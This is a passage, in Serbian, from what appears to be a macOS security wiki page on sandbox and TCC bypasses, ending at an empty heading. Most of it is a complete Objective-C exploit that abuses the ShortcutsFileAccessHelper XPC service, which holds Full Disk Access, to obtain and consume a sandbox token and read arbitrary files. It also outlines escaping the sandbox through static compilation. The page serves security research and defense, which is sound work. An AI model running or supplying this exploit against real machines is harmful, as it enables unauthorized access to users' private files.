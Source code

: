 Ova XPC usluga omogućava davanje pristupa za čitanje i pisanje na proizvoljnu URL adresu XPC klijentu putem metode `extendAccessToURL:completion:` koja prihvata bilo koju vezu. Pošto XPC usluga ima FDA, moguće je zloupotrebiti ova ovlašćenja da se potpuno zaobiđe TCC.

Eksploit je bio:
```objectivec
@protocol WFFileAccessHelperProtocol
- (void) extendAccessToURL:(NSURL *) url completion:(void (^) (FPSandboxingURLWrapper *, NSError *))arg2;
@end
typedef int (*PFN)(const char *);
void expoit_ShortcutsFileAccessHelper(NSString *target) {
[[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/WorkflowKit.framework"]load];
NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.WorkflowKit.ShortcutsFileAccessHelper"];
conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(WFFileAccessHelperProtocol)];
[conn.remoteObjectInterface setClasses:[NSSet setWithArray:@[[NSError class], objc_getClass("FPSandboxingURLWrapper")]] forSelector:@selector(extendAccessToURL:completion:) argumentIndex:0 ofReply:1];
[conn resume];

[[conn remoteObjectProxy] extendAccessToURL:[NSURL fileURLWithPath:target] completion:^(FPSandboxingURLWrapper *fpWrapper, NSError *error) {
NSString *sbxToken = [[NSString alloc] initWithData:[fpWrapper scope] encoding:NSUTF8StringEncoding];
NSURL *targetURL = [fpWrapper url];

void *h = dlopen("/usr/lib/system/libsystem_sandbox.dylib", 2);
PFN sandbox_extension_consume = (PFN)dlsym(h, "sandbox_extension_consume");
if (sandbox_extension_consume([sbxToken UTF8String]) == -1)
NSLog(@"Fail to consume the sandbox token:%@", sbxToken);
else {
NSLog(@"Got the file R&W permission with sandbox token:%@", sbxToken);
NSLog(@"Read the target content:%@", [NSData dataWithContentsOfURL:targetURL]);
}
}];
}
```
### Static Compiling & Dynamically linking

[**Ova istraživanja**](https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/) su otkrila 2 načina za zaobilaženje Sandbox-a. Pošto se sandbox primenjuje iz korisničkog prostora kada se učita **libSystem** biblioteka. Ako bi binarni fajl mogao da izbegne učitavanje te biblioteke, nikada ne bi bio pod sandbox-om:

- Ako je binarni fajl **potpuno statički kompajliran**, mogao bi da izbegne učitavanje te biblioteke.
- Ako **binarni fajl ne bi trebao da učita nijednu biblioteku** (jer je linker takođe u libSystem), ne bi morao da učita libSystem.

### Shellcodes
